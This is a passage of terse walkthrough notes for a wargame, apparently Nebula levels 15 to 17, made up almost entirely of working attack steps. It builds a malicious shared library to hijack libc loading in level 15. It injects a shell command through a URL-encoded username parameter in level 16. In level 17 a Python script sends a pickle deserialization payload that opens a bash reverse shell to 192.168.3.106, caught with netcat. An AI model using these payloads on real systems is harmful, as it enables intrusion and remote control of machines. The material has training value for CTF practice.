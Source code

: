         /home/flag15/flag15
           relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc│[~] [~] [~]                                                                  
           .so.6 with link time reference
        vi verscript
        ---verscript-----
        GLIBC_2.0{
        global:__libc_start_main;
        local: *;
        };
        -----------------
        gcc -shared -Wl,--version-script,verscript,-Bstatic -static-libgcc -o libc.so.6 exploit.o
        /home/flag15/flag15
           
#### 0x16 level16
    mykey:
        vi /tmp/exp.sh
        ----content-----
        /bin/getflag>>/tmp/level16.out
        ----------------
        another terminal:
            nv -lv 1616
        origin terminal:
            wget https://localhost:1616/index.cgi?username=%22%3C%2FDEV%2FNULL%3BP%3D%2FTMP%2FEXP.SH%3B%24{P%2C%2C}%3B%23&password=
                urldecode:   "</DEV/NULL;P=/TMP/EXP.SH;${P,,};#

#### 0x17 level17
    mykey:
        vi /root/桌面/1.py
        -----1.py-----
        #!/usr/bin/python
        import socket
        
        HOST = '192.168.2.147'
        PORT = 10007
        
        sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        sock.connect((HOST,PORT))
        
        recv = sock.recv(1024)
        print "Receive : %s\n" % recv
        
        exploit = "cos\nsystem\n(S'/bin/bash -i>& /dev/tcp/192.168.3.106/51242 0>&1'\ntR.\n"
        
        sock.send(exploit)
        recv = sock.recv(2048)
        -----end------

        nc -lvp 51242
        python /root/桌面/1.py

        receive a new shell with ruid=flag17
            >getflag
